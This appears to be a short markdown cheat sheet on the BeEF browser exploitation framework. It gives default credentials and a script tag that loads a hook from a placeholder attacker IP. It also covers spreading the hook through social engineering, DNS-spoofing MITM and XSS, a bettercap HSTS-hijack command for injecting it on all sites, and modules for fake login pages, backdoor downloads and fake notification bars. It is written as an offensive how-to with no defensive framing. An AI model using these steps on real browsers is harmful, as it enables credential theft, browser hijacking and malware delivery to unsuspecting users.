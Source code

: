 ```yaml
---
title: BeEF
tags:
  - security
  - tool
  - web
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28
---
```


**BeEF**: Browser Exploitation Framework  
Makes use of JS to hook the target browser. Works on any platform as long as target device browser supported JS

Username: `beef`  
Password: `password`

**Hook URL**

````bash
<script src="http://<attacker-ip-address>:3000/hook.js"></script>
````

The URL can be sent to the target using various methods like Social Engineering, MITM attack with DNS spoofing, XSS or JS Injection after performing MITM attack

### Tabs Explained

Detail Tab : Browser Details  
Logs : Events that occurred in the browser  
Commands : Run various commands  
Proxy : Allows to use hooked browser as a proxy  
XssRays : Shows if page has any XSS vulnerabilities  
Network : Overview of current network

<u>Load Hook Script on all Sites (MITM + JS Injection)</u>

Inject Beef Code : <https://drive.google.com/file/d/1uCeGZKyP1Cj2UIORqYMrlFTyi9dLaCUa/view?usp=sharing>  
Add the JS Script in the HSTS Hijack caplet file and perform MITM attack

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
hstshijack/hstshijack (Run HSTS Caplet)
````

### Commands

**Create Alert Dialog**  
Create an dialog box on the target browser

**Raw JavaScript**  
Execute JS code on the target browser

**Spyder Eye**  
Take screenshot of the target browser screen

**Redirect Browser**  
Redirect the target to an different webpage  
Can be used to redirect to download an backdoor, fake login page, etc.

**Get Visited URL**  
Check of a URL was visited by the target

**Pretty Theft**  
Create fake login page to steal credentials

**Fake Notification Bar**  
Send Backdoor, malicious code to user using an fake notification message  
If sending an backdoor ensure to start "Multi Handler" to listen to the connection
   